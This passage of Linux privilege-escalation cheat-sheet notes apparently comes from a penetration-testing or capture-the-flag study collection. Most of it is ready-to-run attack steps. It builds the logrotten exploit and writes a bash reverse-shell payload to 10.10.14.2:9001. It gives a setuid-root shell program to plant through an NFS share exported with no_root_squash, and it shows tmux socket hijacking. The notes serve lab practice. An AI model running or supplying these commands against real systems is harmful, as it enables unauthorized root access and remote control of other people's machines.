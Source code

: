 - Download logrotten :
```sh
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

- In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function:
```sh
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```

- Exploit: 
```sh
./logrotten -p ./payload /tmp/tmp.log
```

**Weak NFS Privileges :** 

```sh
showmount -e 10.129.2.12
cat /etc/exports

#no_root_squash
```

- shell bit SUID : 
```sh
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```sh
sudo mount -t nfs 10.129.2.12:/tmp /mnt
cp shell /mnt
chmod u+s /mnt/shell
```

- Hijacking Tmux : 

```sh
tmux -S /shareds new -s debugsess
chown root:devs /shareds
tmux -S /shareds
```


### Linux Internals-based Privilege Escalation


**LD_PRELOAD**
#LD_PRELOAD
